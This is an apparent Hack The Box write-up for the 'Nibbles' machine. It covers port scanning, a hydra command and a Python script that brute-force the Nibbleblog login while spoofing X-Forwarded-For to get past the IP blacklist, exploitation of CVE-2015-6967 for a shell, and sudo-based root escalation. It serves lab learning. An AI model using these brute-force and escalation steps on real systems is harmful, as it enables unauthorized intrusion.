

# Nibbles - EASY Write-Up
---
## Initial Scanning
---
In order to begin working on the box, the first thing we must do is determine which ports are open on the target machine. For this task, I used the following nmap command: `nmap -sV -v 10.10.10.75`

This yielded us the following output:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-26 15:34 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 15:34
Scanning 10.10.10.75 [2 ports]
Completed Ping Scan at 15:34, 0.03s elapsed (1 total hosts)
Initiating Connect Scan at 15:34
Scanning nibbles.htb (10.10.10.75) [1000 ports]
Discovered open port 80/tcp on 10.10.10.75
Discovered open port 22/tcp on 10.10.10.75
Completed Connect Scan at 15:34, 0.44s elapsed (1000 total ports)
Initiating Service scan at 15:34
Scanning 2 services on nibbles.htb (10.10.10.75)
Completed Service scan at 15:34, 6.05s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.75.
Initiating NSE at 15:34
Completed NSE at 15:34, 0.11s elapsed
Initiating NSE at 15:34
Completed NSE at 15:34, 0.09s elapsed
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```

As we can see in this output, the server appears to be running SSH and HTTP.

Upon navigating to the HTTP page in a browser, we just see a simple page displaying a hello world message:


## Discovering Nibbleblog
---
By inspecting the source, we can see that there is a special directory being served on the webserver:
![[Pasted image 20220626154526.png]]

In this directory, we find an empty blog page. We can see in the bottom right-hand corner of this page that the site is powered by "Nibbleblog":
![[Pasted image 20220626154809.png]]

## Idenitfying Potential Vulnerabilities in Nibbleblog
---
By looking up Nibbleblog, we can find that Nibbleblog is an open source CMS application that is no longer maintained. We can find the source code on the project's github: https://github.com/dignajar/nibbleblog

As the blog software is no longer maintained, we should check to see if the server is running a vulnerable version. I was not able to determine a version number for the version of Nibbleblog running on the target. However, we can run searchsploit to verify whether or not publicly known vulnerabilities exist for Nibbleblog. We find that there is an arbitrary file upload vulnerability in version 4.0.3:
![[Pasted image 20220626155739.png]]

The specific vulnerability identified is CVE-2015-6967, and the seachsploit payload found above corresponds to this exploit: https://www.exploit-db.com/exploits/38489

We can tell by looking at the exploit available for metasploit that the file upload vulnerability is authenticated, so we will need a username and password:
![[Pasted image 20220626160102.png]]

## Bruteforcing the Nibbleblog login
---
Upon researching Nibbleblog, I was not able to determine if there are any default credentials available for Nibbleblog. Because of this lack of default credentials, I decided to attempt to bruteforce the nibbleblog login. By lookign through the github repository, we can see that there is an admin.php file, which contains a login page:
![[Pasted image 20220626165446.png]]

As we can see in the above screenshot, we get an error message upon failing to login that reads "Incorrect username or password."

In order to attempt to bruteforce the login page, we can use the following hydra command: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password."`

Hydra tells us that there were several valid passwords found for the admin user (where the existence of the admin user is just a guess):
![[Pasted image 20220626170039.png]]

Unfortunately, none of these passwords turn out to be actual valid passwords, but rather hydra is finding false positives because there is some kind of IP lockout in place in the web application:
![[Pasted image 20220626170142.png]]

Looking into the Nibbleblog source code on github, we find that the blacklisting is implemented in Nibbleblog itself in the db_users.php file. Specifically, we find that the blacklisting is implemented by ignoring requests sent by the same IP that have failed in rapid succession. After a few minutes, the blacklist then resets and allows additional login attempts:
![[Pasted image 20220626170541.png]]

If we look into the logic that determines the user's ip address, we can see that the application trusts the X-Forwarded-For header before it trusts the originating IP in determining the valid IP address. This means that we can spoof our IP address to get past the IP blacklisting and allow us to bruteforce the login panel at full speed:
![[Pasted image 20220626170819.png]]

In order to bruteforce the password for the admin user (still assuming that this user exists, but we could try a userlist next), we can use the following script:
```python
import requests

class ip_iterator():
    def __init__(self):
        self.octets = [0,0,0,0]
        self.counter = 0

    def get_next_ip(self):
        if self.counter < 4:
            self.counter = self.counter+1
        else:
            self.counter = 0
            self.iterate_ip()
        return self.ip_string()

    def iterate_ip(self):
        for octet in  range(len(self.octets)):
            self.octets[octet] = self.octets[octet] + 1
            if self.octets[octet] > 254:
                self.octets[octet] = 0
            else:
                break

    def ip_string(self):
        return f"{self.octets[3]}.{self.octets[2]}.{self.octets[1]}.{self.octets[0]}"


target = "http://10.10.10.75/nibbleblog/admin.php"

passfilename = "/usr/share/wordlists/rockyou.txt"
passfile = open(passfilename, 'r')

password = passfile.readline()

ipctr = ip_iterator()

while password:
    params = {"username":"admin","password":password.strip()}
    headers = {"X-Forwarded-For":ipctr.get_next_ip(),"Content-Type":"application/x-www-form-urlencoded"}
    response = requests.post(url=target, data=params, headers=headers)
    if "Nibbleblog security error - Blacklist protection" in response.text:
        print("Blacklist Detected")
        break
    if "Incorrect username or password" not in response.text:
        print("Valid password:", password)
        break
    password = passfile.readline()
passfile.close()

```

After running the bruteforce script on the admin user, we find the credentials admin:nibbles for the CMS:
![[Pasted image 20220626185954.png]]

We can verify that we have the correct username and password by logging into the admin panel:
![[Pasted image 20220626190400.png]]

Since, the password for the CMS is "nibbles", it is likely that the box creator intended for us to guess that the name of the box (or the name of the blog within the box) was the password, rather than find a way to bruteforce it. This is likely an attempt to simulate using a company name as a password.

## Gaining Remote Code Execution using CVE-2015-6967
---
Now that we have the admin password, we can continue to test the previous potential vulnerability that we identified using the nibbleblog_file_upload metasploit module. We can test the application using the following options (and `set verbose true` issued to get additional output):
![[Pasted image 20220626190602.png]]

This payload is successful and we now have a meterpreter session on the box running as the nibbler user:
![[Pasted image 20220626191025.png]]

We can now read the user flag in /home/nibbler/user.txt:
![[Pasted image 20220626191212.png]]

## Privilege Escalation
---
By using the `sudo -l` command, we can see that the nibbler user has the ability to execute a specific bash script as root:
![[Pasted image 20220626191321.png]]

Since the file that can be run with sudo is located in nibbler's hoem directory, we have the privileges necessary to create it:
![[Pasted image 20220626191427.png]]

We can modify the bash file provided to change the permissions of the bash program on the machine to be setuid. This will allow us to spawn a root shell:
![[Pasted image 20220626191631.png]]

After running the newly created bash script with sudo, we can use `bash -p` to spawn a shell as root:
![[Pasted image 20220626191739.png]]


